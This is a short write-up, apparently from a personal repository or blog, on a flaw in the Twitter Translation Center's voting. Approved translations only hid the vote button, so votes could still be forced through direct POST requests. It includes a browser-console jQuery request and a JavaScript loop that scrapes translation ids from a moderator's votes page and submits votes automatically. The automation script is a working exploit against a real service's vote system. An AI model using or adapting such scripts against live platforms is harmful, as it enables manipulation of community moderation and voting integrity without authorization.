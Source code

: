 # Twitter Translation Center Bug/Hack

**Twitter Translation Center Bug/Hack**

**Voting automatically in TTC translations**

After analyzing the voting system of the TTC,

I noticed that the sending of the voting request was done through the POST method in the url 

```https://translate.twitter.com/translations/vote``` each translation has an id with 8 digits

When the translation is already approved, the only thing they do is hide The button, 

that's when I realized that if I take the id of this approved translation and send it with the POST method the vote would be confirmed

**Ex:**

To send I used the Browser Console, you can find by pressing the "f12"

``` 
$.ajax({
  type: "POST",
  url: 'https://translate.twitter.com/translations/vote',
  data: 'id=12345678',
});
```

#It's working!
After my theory was confirmed, I decided to automate the procedure.

If you join the profile of a TCC moderator, you may note that in the "Votes" or "Translations" area 

they will contain translations and votes already approved by this moderator..

*Ex:*

```
https://translate.twitter.com/user/MODERATOR/votes
```
With the help of JavaScript

I was able to extract the ID's of the approved translations and send them via POST as a normal voting day

```
var c = document.getElementsByClassName("toggle").length;
for (i = 0; i < c; i++){
	var id = (document.getElementsByClassName("toggle").item(i).getAttribute("data-id"));	
$.ajax({
  type: "POST",
  url: 'https://translate.twitter.com/translations/vote',
  data: 'id=' + id ,
});
console.log('foi ' + id);
}
```

![](http://whiteboyz.xyz/img/Screenshot%20from%202017-03-09%2013-26-18.png)
